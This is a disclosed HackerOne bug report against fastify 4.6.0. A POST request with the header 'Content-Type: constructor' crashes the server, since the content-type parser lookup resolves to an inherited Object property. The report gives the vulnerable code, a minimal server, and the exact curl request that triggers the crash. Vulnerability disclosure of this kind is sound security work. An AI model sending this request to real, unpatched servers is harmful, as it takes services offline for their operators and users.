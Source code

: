 # Deny of service via malicious Content-Type

## Report Details
- **Report ID**: 1715536
- **URL**: https://hackerone.com/reports/1715536
- **State**: Closed
- **Severity**: high
- **Submitted**: 2022-09-28T14:43:13.723Z
- **Disclosed**: 2022-10-10T08:43:25.245Z

## Reporter
- **Username**: bitk
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: fastify

## Vulnerability Information
## Summary:

I found a way to crash a fastify@4.6.0  server with a single query on a minimal setup. 


The function `ContentTypeParser.getParser()` do not check properly if the requested content-type parser exists.

/lib/contentTypeParser.js:94
```javascript
ContentTypeParser.prototype.getParser = function (contentType) {
  if (contentType in this.customParsers) {
    return this.customParsers[contentType]
  }

...
```

If an attacker send `constructor` or any default Object attribute, the function will return something unexpected instead of a parser, here the function returns `[Function: Object]`.

Then the `parser.fn` function is called.
/lib/contentTypeParser.js:94
```javascript
    const result = parser.fn(request, request[kRequestPayloadStream], done)
```

Because `parser.fn` is undefined, the application crashes.




## Steps To Reproduce:

I used the code provided in the [documentation](https://www.fastify.io/docs/latest/Guides/Getting-Started/)


index.js
```javascript
const fastify = require('fastify')({
  logger: true
})

// Declare a route
fastify.get('/', function (request, reply) {
  reply.send({ hello: 'world' })
})

// Run the server!
fastify.listen({ port: 3000 }, function (err, address) {
  if (err) {
    fastify.log.error(err)
    process.exit(1)
  }
  // Server is now listening on ${address}
})
```

Start the server:

```
> node index.js
{"level":30,"time":1664375818521,"pid":8587,"hostname":"localhost","msg":"Server listening at http://127.0.0.1:3000"}

```

When the server is ready, send the following POST  request

```
> curl -X POST http://127.0.0.1:3000 -H 'Content-Type: constructor'
curl: (52) Empty reply from server
```

The server had crashed with 

```
TypeError: parser.fn is not a function
```

## Impact

A malicious actor can crash any fastify server as long as they are able to send a `Content-type` header.

## Attachments
No attachments
